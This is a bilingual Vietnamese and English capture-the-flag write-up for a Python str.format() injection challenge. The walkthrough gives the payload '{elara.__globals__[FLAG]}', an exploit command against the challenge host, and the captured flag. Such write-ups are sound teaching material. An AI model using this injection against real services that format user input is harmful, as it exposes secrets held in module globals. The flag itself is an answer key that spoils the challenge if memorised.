


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

Thử thách Exploitation 200 điểm với đề bài:
> *"Welcome to Madam Elara's Personalized Fortune Reading Service. Take a seat and allow me to gaze into your future...*
> *Oh... The veil is parting... My format call is working! I see it! A flag is in your future!*
> *Madame Elara's parlour speaks netcat: `nc read-my-fortune.pointeroverflowctf.com 9000`*
> *She will ask for your session token before beginning."*

Tệp mã nguồn `service.py` được cung cấp công khai kèm Dockerfile môi trường chạy thực tế.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Phân tích Lỗ hổng Mã nguồn `service.py`

Xem xét đoạn xử lý bói toán chính trong `service.py`:

```python
FLAG = _load_flag()
...
def _greet():
    return "Madame Elara welcomes you."
...
reading = template.format(
    name=name, sign=sign, date=date, elara=_greet,
)
```

Phân tích các đối số truyền vào `.format()`:
* `name`, `sign`, `date` là các chuỗi ký tự thông thường (`str`).
* Riêng `elara` lại là một **function object** (`_greet`).

Trong Python 3, phương thức `str.format()` cho phép duyệt thuộc tính (attribute access) và chỉ mục (subscript indexing) trực tiếp bên trong cú pháp placeholder `{object.attribute[key]}`. Một function object sở hữu thuộc tính `__globals__` — từ điển chứa toàn bộ không gian tên toàn cục (module namespace) của file đang thực thi, trong đó biến `FLAG` được lưu trữ trực tiếp.

---

## Bước 2: Xây dựng Payload Khai thác

Để trích xuất giá trị của `FLAG` từ không gian tên module, payload ngắn gọn và trực tiếp nhất là:

```text
{elara.__globals__[FLAG]}
```

Quy trình giải quyết của Python runtime khi gặp payload:
1. Truy cập `elara` $\rightarrow$ Trỏ tới hàm `_greet`.
2. Truy cập `elara.__globals__` $\rightarrow$ Lấy từ điển `globals()` của `service.py`.
3. Truy cập chỉ mục `['FLAG']` $\rightarrow$ Lấy chuỗi cờ của đội.
4. Chuyển đổi cờ thành chuỗi và nhúng vào văn bản bói toán trả về client.

---

## Bước 3: Thực thi Khai thác Trực tiếp

Sử dụng session token hợp lệ của đội:
```text
<SESSION_TOKEN>
```

Thực thi kịch bản exploit tự động:

```bash
python exploit.py read-my-fortune.pointeroverflowctf.com 9000 "<SESSION_TOKEN>"
```

Phản hồi từ server:
```text
── Your Reading ─────────────────────────────────────────────
POCTF{127.623.VZ4XA3V56I2JQQMU.X3LP2HNY765JXN7DXH65J4JFYM}
─────────────────────────────────────────────────────────────
```

⇒ **Flag:** `POCTF{127.623.VZ4XA3V56I2JQQMU.X3LP2HNY765JXN7DXH65J4JFYM}`

</div>

<div class="lang-en" markdown="1">

This 200-point Exploitation challenge runs Madame Elara's fortune-reading service via `nc read-my-fortune.pointeroverflowctf.com 9000`. The server asks for a team session token, then a name and zodiac sign. The supplied `service.py` and Dockerfile reveal that user-controlled text reaches Python's `str.format()`.

---

## Solve Flow



---

## Step 1: Inspect `service.py`

The relevant source keeps `FLAG` at module scope and passes the function `_greet` as the `elara` argument:

```python
FLAG = _load_flag()
...
def _greet():
    return "Madame Elara welcomes you."
...
reading = template.format(
    name=name, sign=sign, date=date, elara=_greet,
)
```

The ordinary `name`, `sign`, and `date` values are strings (`str`). `elara` is a function object. Python's `.format()` fields allow attribute and subscript traversal through `{object.attribute[key]}`. Every Python function exposes `__globals__`, also reachable as `elara.__globals__`, the module namespace (`globals()`) that contains `FLAG`.

---

## Step 2: Build the payload

The template placeholder walks from `elara` to its function globals, then indexes `['FLAG']`:

```text
{elara.__globals__[FLAG]}
```

The formatter substitutes the flag into the returned fortune text.

---

## Step 3: Execute the request

Use a valid team token in place of the placeholder:

```text
<SESSION_TOKEN>
```

Run the exploit against the service:

```bash
python exploit.py read-my-fortune.pointeroverflowctf.com 9000 "<SESSION_TOKEN>"
```

The server output contains:

```text
── Your Reading ─────────────────────────────────────────────
POCTF{127.623.VZ4XA3V56I2JQQMU.X3LP2HNY765JXN7DXH65J4JFYM}
─────────────────────────────────────────────────────────────
```

⇒ **Flag:** `POCTF{127.623.VZ4XA3V56I2JQQMU.X3LP2HNY765JXN7DXH65J4JFYM}`

</div>
